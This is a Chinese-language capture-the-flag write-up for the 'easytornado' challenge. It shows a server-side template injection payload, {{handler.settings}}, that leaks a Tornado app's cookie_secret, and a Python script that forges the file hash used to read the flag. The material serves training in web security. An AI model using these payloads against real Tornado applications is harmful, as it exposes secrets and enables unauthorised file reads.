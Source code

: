 # easytornado

我们可以查看三个文件:

`/flag.txt` 内容:

```
flag in /fllllllllllllag
```

`/welcome.txt` 只有 `render`, 我也不懂什么意思.

`/hints.txt` 让我们知道 `filehash` 的构造:

```
md5(cookie_secret+md5(filename))
```

以上三个 `URL` 有共同的结构:

```
http://111.200.241.244:53584/file?filename=文件路径&filehash=文件哈希
```

那么需要构造 `URL`: `/file?filename=/fllllllllllllag&filehash=文件 /fllllllllllllag 的哈希` 就可以得到 `flag`. 根据 `/hint.txt` 的提示, 需要找到 `cookie_secret`.

使用 `gobuster`, 我找到地址 `http://111.200.241.244:53584/error?msg=` 可能存在 `SSTI` 漏洞 (题名 `tornado` 是一个 `Python` 框架名).

不知道怎样才能拿到 `cookie`, 查了一些 [write up](https://blog.csdn.net/mochu7777777/article/details/104866991), `cookie` 可以读通过 `handler.settings`:

```
http://111.200.241.244:53584/error?msg={{handler.settings}}
```

返回:

```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': '22894d2e-48f5-4dc1-8818-1d41327a50e2'}
```

最后写一个简单的脚本:

```py
import hashlib

filename = '/fllllllllllllag'
cookie_secret = '22894d2e-48f5-4dc1-8818-1d41327a50e2'

filename_md5 = hashlib.md5(filename.encode()).hexdigest()
filehash = hashlib.md5((cookie_secret + filename_md5).encode()).hexdigest()

print(filehash)
```

Payload:

```
http://111.200.241.244:53584/file?filename=/fllllllllllllag&filehash=7a64956f47e504739e99573d5db0d148
```
